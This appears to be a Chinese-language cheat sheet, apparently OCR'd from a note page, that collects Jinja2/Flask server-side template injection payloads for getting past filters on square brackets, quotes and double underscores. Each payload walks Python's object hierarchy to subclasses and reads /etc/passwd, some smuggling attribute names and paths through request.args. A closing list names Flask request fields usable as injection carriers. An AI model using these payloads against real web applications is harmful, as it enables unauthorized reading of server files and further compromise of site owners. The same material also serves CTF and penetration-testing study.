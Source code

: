 欢迎补充


### 绕过中括号


```plain
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()

```



```plain
使用gititem绕过。如原poc {{"".class.bases[0]}}绕过后{{"".class.bases.getitem(0)}}

```






pop() 函数用于移除列表中的一个元素（默认最后一个元素），并且返回该元素的值


### 过滤引号


```plain
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read()}}&path=/etc/passwd

```



### 过滤双下划线


```plain
{{ ''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read() }}&class=__class__&mro=__mro__&subclasses=__subclasses__

```



这里用到的是request:(稍微解释一下)


`{{''[request.args.a][request.args.b][2][request.args.c]()}}?a=__class__&b=__mro__&c=__subclasses__}}`


```plain
如下为常用的request姿势request.args.x1      get传参request.values.x1    post传参request.cookiesrequest.form.x1     post传参    (Content-Type:applicaation/x-www-form-urlencoded或multipart/form-data)request.data          post传参    (Content-Type:a/b)request.json      post传json  (Content-Type:application/json)

```



在Flask的官方文档中是这样介绍request的：对于 Web 应用，与客户端发送给服务器的数据交互至关重要。在 Flask 中由全局的 request 对象来提供这些信息。
